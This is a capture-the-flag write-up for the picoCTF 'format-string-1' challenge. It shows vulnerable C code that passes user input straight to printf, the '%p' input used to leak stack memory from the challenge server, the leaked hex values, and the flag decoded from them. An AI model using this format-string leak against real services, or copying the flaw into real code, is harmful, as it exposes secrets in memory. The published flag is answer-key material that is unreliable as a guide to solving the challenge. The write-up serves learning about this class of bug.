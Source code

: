 # format-string-1.md

flag : picoCTF{4n1m41_57y13_4x4_f14g_e11e8018}

## My Approach

I first checked the source code

```
#include <stdio.h>


int main() {
  char buf[1024];
  char secret1[64];
  char flag[64];
  char secret2[64];

  // Read in first secret menu item
  FILE *fd = fopen("secret-menu-item-1.txt", "r");
  if (fd == NULL){
    printf("'secret-menu-item-1.txt' file not found, aborting.\n");
    return 1;
  }
  fgets(secret1, 64, fd);
  // Read in the flag
  fd = fopen("flag.txt", "r");
  if (fd == NULL){
    printf("'flag.txt' file not found, aborting.\n");
    return 1;
  }
  fgets(flag, 64, fd);
  // Read in second secret menu item
  fd = fopen("secret-menu-item-2.txt", "r");
  if (fd == NULL){
    printf("'secret-menu-item-2.txt' file not found, aborting.\n");
    return 1;
  }
  fgets(secret2, 64, fd);

  printf("Give me your order and I'll read it back to you:\n");
  fflush(stdout);
  scanf("%1024s", buf);
  printf("Here's your order: ");
  printf(buf);
  printf("\n");
  fflush(stdout);

  printf("Bye!\n");
  fflush(stdout);

  return 0;
}
```
we see a string vulnerability, they are not accepting string using %s.              
Similar to a previous chall, so I simply gave an input of %p, multiple times, thru hit and trial method. The hint said 32 bytes or 64 bytes, so I entered 32 %p's, I don't know if that was relevant but okay.    
And I got :     
```
 0x402118,(nil),0x7e1c68fc1a00,(nil),0x5d4880,0xa347834,0x7ffd8cce8220,0x7e1c68db2e60,0x7e1c68fd74d0,0x1,0x7ffd8cce82f0,(nil),(nil),0x7b4654436f636970,0x355f31346d316e34,0x3478345f33317937,0x31655f673431665f,
0x7d383130386531,0x7,0x7e1c68fd98d8,0x2300000007,0x206e693374307250,0xa336c797453,0x9,0x7e1c68feade9,0x7e1c68dbb098,0x7e1c68fd74d0,(nil),0x7ffd8cce8300,0x70252c70252c7025,0x252c70252c70252c,0x2c70252c70252c70
```

I put this on CyberChef (from Hex) and got the flag reversed, after which I reversed the flag and got the correct answer.

![image](https://github.com/user-attachments/assets/fe2d077c-63d9-424a-bfc2-5374a2a43536)                   

## Terminal Ouput :
```
avantikasanyal@LAPTOP-CFRE3HMA:~$ nc mimas.picoctf.net 55797
Give me your order and I'll read it back to you:
%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p
Here's your order: 0x402118,(nil),0x7e1c68fc1a00,(nil),0x5d4880,0xa347834,0x7ffd8cce8220,0x7e1c68db2e60,0x7e1c68fd74d0,0x1,0x7ffd8cce82f0,(nil),(nil),0x7b4654436f636970,0x355f31346d316e34,0x3478345f33317937,0x31655f673431665f,0x7d383130386531,0x7,0x7e1c68fd98d8,0x2300000007,0x206e693374307250,0xa336c797453,0x9,0x7e1c68feade9,0x7e1c68dbb098,0x7e1c68fd74d0,(nil),0x7ffd8cce8300,0x70252c70252c7025,0x252c70252c70252c,0x2c70252c70252c70
Bye!
```

## What I learnt?
1. Format String vul
2. Stack Layout
3. Decoding Hex Values

##  Errors :
I was reversing the flag wrong, I spent SO many hours on it.
